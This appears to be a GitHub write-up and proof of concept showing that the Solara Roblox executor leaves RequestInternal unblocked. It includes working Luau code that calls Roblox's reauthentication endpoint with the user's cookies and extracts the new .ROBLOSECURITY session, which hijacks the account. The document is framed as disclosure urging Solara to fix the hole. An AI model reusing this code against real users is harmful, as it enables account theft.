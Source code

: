 # Solara-Stealer-PoC
Writeup on stealing roblox accounts with Solara

# Introduction
[RequestInternal](https://robloxapi.github.io/ref/class/HttpService.html#member-RequestInternal) is a 'CoreScript' function in Roblox that allows the Roblox engine to interact with Roblox’s internal web APIs. This function is essential for interacting with Roblox's web API's as the user. This write-up will focus on its use in session hijacking, and other potential uses.

# Session Hijacking via Reauthentication
Under the "[Roblox authentication web API](https://auth.roblox.com)", a feature exists under the name "logoutfromallsessionsandreauthenticate". It does exactly what the name suggests, it takes the input '.ROBLOSECURITY' session, invalidates it, then gives you a new one to reauthenticate with.

Now, with 'RequestInternal', you cannot use the function with a normal LocalScript, as if you could you could perform actions maliciously using the user's cookie(s). The issue, is that Solara, did not block this function for use in the execution, therefore the user using Solara is vulnerable to the exploitation of 'RequestInternal'.

# PoC of account hijacking
https://streamable.com/837cg4

# Example of Session Hijacking
```luau
-- httpservice
local httpService = game:GetService("HttpService")

-- data for the request
local data = {
    Url = "https://auth.roblox.com/v1/logoutfromallsessionsandreauthenticate", -- url for reauthentication
    Method = "POST", -- send a POST request
    Body = "{}" -- placeholder
}
-- this request will be sent with the user's cookies
local request = httpService:RequestInternal(data)

-- success is a boolean - whether or not the request was a success (?)
-- response is the dict of response data:
--[[
    response.Body: string
    response.Headers: table (dict)
    response.StatusCode: number
]]
    -- start the request
request:Start(function(success, response) 
    local headers = response.Headers -- get the response headers
    local cookie = headers["set-cookie"] -- get the cookies sent from the server
    local session = cookie:split(";")[1] -- get the raw cookie text without expiration shi

    print(session) -- output the reauthenticated session
end)
```

# Conclusion
Solara needs to disallow exploiters from being able to use the 'RequestInternal' function.
